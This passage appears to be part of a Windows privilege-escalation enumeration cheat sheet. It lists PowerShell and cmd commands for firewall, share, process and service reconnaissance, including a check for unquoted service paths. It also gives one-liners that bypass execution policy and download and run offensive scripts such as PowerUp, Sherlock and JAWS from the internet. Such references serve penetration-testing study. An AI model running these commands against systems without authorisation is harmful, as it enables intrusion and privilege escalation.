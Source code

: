 ```powershell
netsh advfirewall show currentprofile
netsh firewall show state
netsh firewall show config

# Network shares
net share
wmic share get name,path,status

# Network neighbor info
arp -a

# Hosts file
type C:\Windows\System32\drivers\etc\hosts
```

### Process Information
```powershell
# Process list
tasklist
tasklist /v
wmic process get caption,executablepath,commandline

# Services
net start
wmic service get name,displayname,pathname,startmode

# Service permissions
sc qc [servicename]
sc query [servicename]

# Check for unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

## Automated Enumeration Tools

```powershell
# PowerUp
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks"

# Sherlock (Windows Exploit Suggester)
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1'); Find-AllVulns"

# JAWS
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/411Hall/JAWS/master/jaws-enum.ps1')"

# Seatbelt
.\Seatbelt.exe -group=all

# winPEAS
winPEAS.exe

# PowerSploit
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1'); Invoke-PrivescAudit"
```
